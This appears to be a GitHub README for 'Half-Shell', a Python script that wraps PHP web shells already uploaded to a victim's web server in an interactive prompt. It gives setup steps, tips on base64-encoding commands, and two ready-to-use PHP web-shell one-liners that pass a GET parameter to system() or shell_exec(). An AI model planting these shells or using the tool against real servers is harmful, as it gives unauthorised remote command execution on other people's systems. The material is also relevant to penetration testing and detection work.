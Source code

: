 # Half-Shell

Half-Shell is a simple python script to give the user a native looking prompt for communicating with uploaded $_GET php scripts.

### Prerequisites

Uses python's requests module. If you're not familiar with requests, it's more lightweight and usable compared to urllib or urllib2. More about requests can be found here: https://2.python-requests.org//en/master/

```
pip install requests
```

## Additional Info
![HELP](https://github.com/Mr-BeardFace/Images/blob/master/halfshell1.PNG)

Once a php $_GET has been uploaded onto a victim's web server, half-shell can be used to interact with the php shell that feels seamless to the user. Lame man's terms... you won't have to copy/paste commands ever 10 seconds.

Using half-shell is pretty straight forward. Enter in the url, including the location of your cmd (or otherwise) variable. If you are base64 encoding your commands (which I suggest you do) just add 'base64' to the end of the command. Other encodings are currently being looked at and could possibly be added later.

![Example](https://github.com/Mr-BeardFace/Images/blob/master/halfshell2.PNG)

For base64 encoded commands, the below are the best php one-liners to use. Others tend to not echo correctly, or do not return any data.

```
<?php system(base64_decode($_GET['cmd']));?>
<?php echo shell_exec(base64_decode($_GET['cmd']));?>
```

